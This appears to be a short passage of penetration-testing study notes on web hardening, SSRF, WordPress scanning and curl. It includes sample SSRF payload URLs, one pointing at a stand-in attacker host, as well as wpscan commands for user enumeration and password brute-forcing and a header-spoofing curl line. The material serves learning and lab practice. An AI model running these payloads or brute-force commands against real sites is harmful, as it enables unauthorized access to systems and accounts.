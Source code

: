 ```bash
Keep system and services updated
Turn off errors messages
WAF
Disable some PHP feature like allow_url_fopen and allow_url_include
Sanitarization input
Whitelist for file names
```

<br>

---

## SSRF (Server Side Request Forgery)

Two types : 
- Regular SSRF : returned data
- Blind SSRF : not returned data

Potential SSRF vulnerabilities when :
- full url is used in a parameter in the address bar
- hidden field in a form
- partial url such as juste the hostname
- path url 

```bash
# Example
http://site.domain/request?url=http://anothersite.domain/request?id=1
http://site.domain/request?url=/../user
http://website.thm/stock?server=api.website.thm/api/user&x=&id=123
http://website.thm/stock?url=http://hacker.domain.thm/
```

There are two types of potential defense against SSRF :
- Allow list : list of accepted patterns
- Deny list : list of denied patterns

<br>

---

## Wordpress

```bash
# wpscan examples
$ wpscan --url <url> --no-update -e u
$ wpscan --url <url> -U <user> -P <wordlist>
$ wpscan --url http://repairshop.sbrc -U theo -P wordlist.txt
$ wpscan --url http://repairshop.sbrc -U users.txt
```

<br>

---

## Curl

```bash
# IP spoofing
$ curl --header "X-Forwarded-For: 192.168.0.1"
```
